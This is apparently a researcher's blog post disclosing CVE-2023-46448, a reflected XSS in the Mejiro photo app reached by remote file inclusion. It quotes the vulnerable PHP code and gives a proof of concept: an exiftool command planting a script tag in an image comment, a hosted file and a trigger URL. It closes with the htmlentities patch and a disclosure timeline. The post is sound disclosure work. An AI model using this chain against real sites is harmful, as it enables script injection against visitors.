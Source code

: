 ```yaml
---
layout: post
title: Mejiro Reflected XSS Via Remote File Inclusion CVE-2023-46448
subtitle: CVE-2023-46448
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


```
Title: Mejiro Reflected XSS Via Remote File Inclusion
Risk: 6.1 Medium CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
Versions Affected: Before commit 3096393
Identifier: CVE-2023-46448
Authors: Aaron Haymore
```

## Summary
I have identified a reflected cross-site scripting (XSS) vulnerability in a GitHub project known as Mejiro, which is an open-source photo publishing application. This XSS vulnerability can be exploited due to two critical factors. The first factor involves how `index.php` loads photos, while the second factor pertains to how the application processes metadata.
## Details
The core of the vulnerability lies within `index.php`. As seen from the code below, the application is extracting metadata using `exif` and saving them to their respective variables.
```php
// Get aperture, exposure, iso, and datetime from EXIF
$aperture = (is_null($exif['COMPUTED']['ApertureFNumber']) ? null : $exif['COMPUTED']['ApertureFNumber']);
$exposure = (is_null($exif['EXIF']['ExposureTime']) ? null : $exif['EXIF']['ExposureTime']);
// Normalize exposure
// https://stackoverflow.com/questions/3049998/parsing-exifs-exposuretime-using-php
if (!is_null($exposure)) {
	$parts = explode("/", $exposure);
	if (($parts[1] % $parts[0]) == 0 || $parts[1] == 1000000) {
		$exposure = ' &bull; 1/' . round($parts[1] / $parts[0], 0);
	} else {
		if ($parts[1] == 1) {
			$exposure = ' &bull; ' . $parts[0];
		} else {
			$exposure = ' &bull; ' . $parts[0] . '/' . $parts[1];
		}
	}
}
$iso = (is_null($exif['EXIF']['ISOSpeedRatings']) ? null : " &bull; " . $exif['EXIF']['ISOSpeedRatings']);
$datetime = $exif['EXIF']['DateTimeOriginal'] ?? null;
$comment = $exif['COMMENT']['0'] ?? null;
```

A little further down in `index.php`, you can see how this information and photo are displayed to the user. It outputs each of the variables taken from above to the webpage.
```php
// Show photo, EXIF data, description, and info
// Enable the download link if $download = true
$raw = (!empty($raw_file[0]) ? '&raw=' .  $raw_file[0] : null);
if ($download) {
	echo '<div class="center"><a href="' . htmlentities($file) . '" download><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"></a><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/bin.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
} else {
	echo '<div class="center"><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/remove-image.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
}
```

Notice that there is no sanitization between when the data is extracted and displayed to the user. Input sanitization, also known as input validation, is the process of inspecting and cleaning data received from untrusted or unvalidated sources to ensure it is safe. The primary goal of input sanitization is to protect against malicious injection-type attacks. 

As an attacker, if I can manipulate variables like `$comment`, `$description`, or any other field within `$exif_info`, it could result in a cross-site scripting vulnerability. This bug alone does not have an impact because all the photos here are controlled by the author. There is no upload function; they have to be manually placed on the file system.

However, I was able to find a remote file inclusion vulnerability in `index.php` on the `photo` variable (it is worth noting that LFI was not possible and it would only load images). By exploiting this vulnerability, I was able to host a malicious file that contained embedded JavaScript within its metadata. When the application processes my malicious file, it extracts the JavaScript, executing it when someone visits the page.
```php
$file = (isset($_GET['photo']) ? $_GET['photo'] : null);
```

## Proof Of Concept 
To illustrate the exploit, I injected a malicious payload into a seemingly innocent 'dog.jpg' file:
```
[zonifer@dell Sandbox]$ exiftool -Comment='<script>alert("XSS")</script>' dog.jpg
    1 image files updated
```

Next, I hosted the payload on a basic `python3` web server:
```
[zonifer@dell Sandbox]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.1.17 - - [09/Oct/2023 00:33:12] "GET /dog.jpg HTTP/1.0" 200 -
```

To trigger the XSS, I navigated to:

`http://10.10.1.17/mejiro/index.php?all=1&photo=http://10.50.1.2/dog.jpg`

As a result, the XSS payload executed as expected.
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/20231009003326.png)

## Patch
To patch this vulnerability, the simplest solution is to utilize `htmlentities`. `htmlentities` is a PHP function used to convert special characters in a string to their respective HTML entities.

For example, characters like `<`, `>`, `&`, and double quotes `"` have special meanings in HTML. If they are not properly escaped, malicious users can inject code into web pages. `htmlentities` replaces these characters with their HTML entity equivalents, making it safe to display content on a webpage.

As an example, a malicious script to spawn an alert box would be:
```
<script>alert("XSS")</script>
```

After processing it through `htmlentities`, it would be:
```
`&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;`
```

You can view the fix [here](https://github.com/dmpop/mejiro/commit/309639339f5816408865902befe8c90cb6862537), It essentially does what is just described above. It takes each of the EXIF data fields and processes it through `htmlentities` to strip away any possibility of malicious JavaScript.
## Report Timeline
```
10-9-2023: Vulnerability discovered and reported to the author.
10-10-2023: The author acknowledged the report and asked for suggestions to fix the issue.
10-10-2023: Response provided to the author, suggesting ways to fix the vulnerability.
10-15-2023: The patch was successfully pushed
```

## Conclusion
The Reflected XSS vulnerability in Mejiro underscores the importance of thorough security testing in web applications. It serves as a reminder that even seemingly benign elements, such as image metadata, can be exploited by malicious actors to compromise the security of a system. The timely response of the Mejiro development team in implementing the suggested patch is commendable and highlights the importance of collaboration in ensuring the security of web applications. By addressing such vulnerabilities proactively, we contribute to a safer and more reliable digital landscape.
